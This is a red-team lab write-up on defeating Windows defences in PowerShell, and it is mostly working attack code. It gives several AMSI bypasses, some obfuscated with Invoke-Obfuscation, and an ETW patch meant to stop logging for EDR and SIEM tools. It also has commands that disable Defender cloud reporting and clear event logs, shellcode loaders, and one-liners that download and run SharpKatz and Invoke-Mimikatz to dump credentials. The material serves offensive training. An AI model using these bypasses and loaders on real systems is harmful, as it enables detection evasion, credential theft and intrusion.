

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# Powershell Lab - Bypassing AMSI and ETW

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

> ***ENABLE POWERSHELL LOGGING*** : For this lab and all future labs, turn on powershell logging on your windows machine.


Go to Local Computer Policy - Computer Configuration - Administrative Templates - Windows Components.


Scroll down to Microsoft Powershell and enable `MODULE LOGGING` and `SCRIPT BLOCK LOGGING`.


This will log any powershell commands and script contents run in a powershell console - using eventviewer we can have a look for Event ID 800, 4103 and 4104. Open Eventviewer and go to `Applications and Services Logs` - `MICROSOFT` - `POWERSHELL` - `OPERATIONAL`.


Make exceptions in Windows Defender:

```bash
[+] C:\Downloads -> to make it easier to download our tools with out AV Detection
[+] C:\THEV -> our training course
[+] C:\Temp -> Used by GoCheck
[+] C:\SysinternalsSuite
```

We can do this using powershell:

```powershell
Add-MpPreference -ExclusionPath "C:\SysinternalsSuite"
(Get-MpPreference).ExclusionPath
```

We can check some general Defender settings in powershell:

```powershell
Get-MpComputerStatus
Get-MpThreat
```

Turning off various modules of Microsoft Defender using powershell:

### Real-Time Protection
`Real-Time Protection`: This is a feature of Microsoft Defender that continuously monitors your system for threats (e.g., malware, viruses) in real-time. It scans files, apps, and processes as they are accessed or executed. Setting DisableRealtimeMonitoring to $true turns off real-time protection, meaning files and processes are no longer automatically scanned.

This does not disable Microsoft Defender entirely — it only disables real-time scanning. Other features like ***scheduled scans and manual scans will still work***.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Cloud-Delivered Protection
The `MAPSReporting` setting controls the Microsoft Active Protection Service (MAPS), also referred to as `Cloud-Delivered Protection`. Setting it to Disabled stops your system from sending information about threats to Microsoft and prevents it from receiving `cloud-based threat intelligence` in real time.

```powershell
Set-MpPreference -MAPSReporting Disable
```

### Automatic Sample Submission
`SubmitSamplesConsent` controls how Microsoft Defender submits samples of suspicious or potentially harmful files to Microsoft for analysis. These samples help improve Defender’s detection and protection capabilities.

`NeverSend`: This value tells Microsoft Defender to disable all sample submissions. No files will be sent to Microsoft for further analysis, even if they’re flagged as suspicious.

```powershell
Set-MpPreference -SubmitSamplesConsent NeverSend
```

| Consent Level | Description                       |
|---------------|-----------------------------------|
| 0             | Always Prompt                     |
| 1             | Send Safe Samples Automatically   |
| 2             | Never Send                        |

### Periodic Scanning
The `DisableScanningNetworkFiles` setting in Microsoft Defender controls whether network files are scanned. When you set DisableScanningNetworkFiles to $true, it disables the scanning of files located on network drives

```Powershell
Set-MpPreference -DisableScanningNetworkFiles $true
```

# LAB - Evading AMSI

> For this lab we will enable ``Microsoft Defender`` - in order to demonstrate how AMSI works, and how to bypass it.

Check if Defender is turned on by either pasting the powershell commands below, or by running the checkav.ps1 script:

Open a powershell prompt:

```powershell
cd \thev\labs\powershell
.\checkav.ps1
```

The script contains the following code:

```powershell
[PSCustomObject]@{
    "Real-Time Protection"        = if ((Get-MpComputerStatus).RealTimeProtectionEnabled -eq $false) {"disabled"} else {"enabled"}
    "Cloud-Delivered Protection"  = if ((Get-MpPreference).MAPSReporting -eq 0) { "disabled" } else { "enabled" }
    "Automatic Sample Submission" = if ((Get-MpPreference).SubmitSamplesConsent -eq 2) { "disabled" } else { "enabled" }
    "Periodic File Scanning"      = if ((Get-MpPreference).DisableScanningNetworkFiles -eq $true) {"disabled"} else {"enabled"}
} | Format-Table -AutoSize
```

The output should be like this :


>**IMPORTANT**: Make sure Real-Time Protection is `enabled` and the rest is `disabled` - if this is not the case just run the following script, it will configure the right settings.

```powershell
cd \thev\labs\powershell
.\enableav.ps1
```

Before we start let's clear the powershell event logs, so there's no noise from before in there. You can do this by opening a powershell console and typing the following command:

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

Now from the same powershell terminal, run SharpKatz from memory with IEX (Invoke Expression)

```Powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
```

We'll see the script won't execute since AMSI intercepted it before executing and has sent it to Defender that scanned it and determined it as malicious:



Let's have a look at the EventViewer logs - open EventViewer, select **"Application and Services Logs"**, **"Microsoft"**,**"Windows"**, **"Powershell"** and finally **"Operational"**.


OK, so now what?

**Bypassing AMSI - How it works**

Let's clear the powershell event logs again:

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

`NEW ONE`:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

>Invoke-obfuscation
>set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
>token
>string
>2

output =
```powershell
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
```

Safe both commands to a file and run gocheck64

And now let's run an obfuscated AMSI Bypass from the same powershell terminal:

`OLD ONE`

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

And let's try that Invoke-SharpKatz again, if all goes well, AMSI should be patched and the script will run:

Success!!!

> ***DETECTIONS***
> Eventlog 800, 4103, 4104
> 
----

However bypassing AMSI doesn't disable eventlogs - which are useful telemetry for EDR's, SIEM's and UEBA's. Let's open Eventviewer again and see what was logged.

A very cool Forensics tools that can anaylyze powershell logs is `Powershell-Hunter` - if we run this on our powershell logs it will also flag some suspicious commands.

Ideally we don't want any of these logs to be generated and thus shutting off the telemety for security solutions, we can do this by patchin ETW (Event Tracing for Windows).

Let's clear the powershell event logs again before we apply the ETW bypass (remember AMSI is already patched so this ETW bypass doesn't need to be obfuscated):

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

**ETW Bypass**

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

In summary, this command does the following:

>**[+]** Uses reflection to access internal, non-public fields in .NET classes.
>
>**[+]** Targets the etwProvider object within PowerShell’s PSEtwLogProvider class, which handles ETW logging.
>
>**[+]** Sets the m_enabled field of the underlying EventProvider to false, disabling ETW event logging for PowerShell activities.
>
>**Result**: PowerShell commands, script blocks, and other activities that would normally be logged via ETW (e.g., for security monitoring or auditing) will no longer generate ETW events, making them harder to detect by security tools like Windows Defender, Sysmon, or other EDR solutions that rely on ETW.

If we want to use this first, without an AMSI Bypass, we'll have to obuscate it, otherwise AMSI will trigger on this code. We'll use `Invoke-Obfuscastion`.

```powershell
cd \thev\invoke-obfuscation
import-module invoke-obfuscation.psd1
invoke obfuscation
```


then we'll enter our script into Invoke-Obfuscation.

```powershell
SET SCRIPTBLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

Next we'll select "token", "string" and "2", re-order.

Our output command is now:

```powershell
[Reflection.Assembly]::LoadWithPartialName(("{1}{0}{2}" -f 'm.Co','Syste','re')).GetType(("{10}{0}{6}{7}{1}{4}{11}{5}{8}{2}{9}{3}"-f '.D','i','Event','ider','cs','Eventi','iagnos','t','ng.','Prov','System','.')).GetField(("{0}{1}{2}" -f 'm','_e','nabled'),("{1}{2}{0}{3}{4}"-f 'P','No','n','ublic,I','nstance')).SetValue([Ref].Assembly.GetType(("{5}{7}{6}{4}{0}{9}{8}{2}{11}{10}{3}{1}"-f 'nagement.','er','n','rovid','Ma','Syst','.','em','tomatio','Au','cing.PSEtwLogP','.Tra')).GetField(("{0}{1}{3}{2}"-f'et','wP','vider','ro'),("{1}{3}{2}{0}"-f'tic','No','ic,Sta','nPubl')).GetValue($null),0)
```

With "copy" we can copy it to our clipboard, open a new powershell and past the command. Then check eventviewer!


powershell shellcode loader (without amsi bypass)

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

$code = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("msvcrt.dll", SetLastError=true)] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
}
"@

Add-Type -TypeDefinition $code

# Allocate memory
$mem = [Win32]::VirtualAlloc([IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)

# Copy shellcode to memory
[Win32]::memcpy($mem, $shellcode, $shellcode.Length)

# Create thread to execute shellcode
$thread = [Win32]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)

# Wait for thread to exit (optional)
[System.Runtime.InteropServices.Marshal]::WaitForSingleObject($thread, 0xFFFFFFFF)
```

Shorter version:

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)

# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)

# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])

# Start the thread
$thread.Invoke()

# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
```

# AMSI and ETW bypass in 1:
https://github.com/BlackShell256/Null-AMSI?tab=readme-ov-file

```powershell
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1);Invoke-NullAmsi -etw -v;IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
```

Another AMSI Bypass:

```powershell
$t=[Ref].Assembly.GetType(('System.Manage'+'ment.Automa'+'tion.AmsiUtils'));
$f=$t.GetField(('amsiIn'+'itFailed'),'NonPublic,Static');
$f.SetValue($null,$true);
```
<https://medium.com/@0xHossam/powershell-exploits-modern-apts-and-their-malicious-scripting-tactics-7f98b0e8090c>

includes c-code!!!

AMSIBYPASS
---

> This bypass does not require administrator rights!!!

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

Los er door:

```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


And finally AMSI.FAIL

or this also works

```powershell
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```


**C# Example:**

```csharp
using System;
using System.Reflection;

public class AmsiBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the AmsiUtils type
            Type amsiUtilsType = typeof(System.Management.Automation.AmsiUtils);

            // Get the amsiInitFailed field
            FieldInfo amsiInitFailedField = amsiUtilsType.GetField("amsiInitFailed", BindingFlags.NonPublic | BindingFlags.Static);

            // Set the amsiInitFailed field to true
            if (amsiInitFailedField != null)
            {
                amsiInitFailedField.SetValue(null, true);
                Console.WriteLine("AMSI bypassed.");
            }
            else
            {
                Console.WriteLine("amsiInitFailed field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```
## Key Considerations:

* **Assembly Loading:**
    * If your .NET binary doesn't already have `System.Management.Automation.dll` loaded, you may need to load it explicitly using `Assembly.Load()` or related methods.
* **.NET Version Compatibility:**
    * Ensure that the reflection code is compatible with the .NET Framework or .NET Core/.NET 5+ version that the target binary is using.
* **Security Implications:**
    * AMSI bypass techniques can be used for malicious purposes. Use them responsibly and ethically.
* **EDR Detection:**
    *
* **Finding the correct assembly:**
    * In some .net applications, the `System.Management.Automation.dll` may not be loaded. If this is the case, you will need to load it.

**In summary:** The AMSI bypass technique using reflection is not limited to PowerShell and can be successfully implemented in .NET binaries.

-----
# dotnet packing

ConfuserEx
Babel

----
https://github.com/pracsec/AmsiScanner/tree/main/src

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patching-Clr

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

Use this one:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

>Invoke-obfuscation
>set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
>token
>string
>2

output =
```powershell
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
```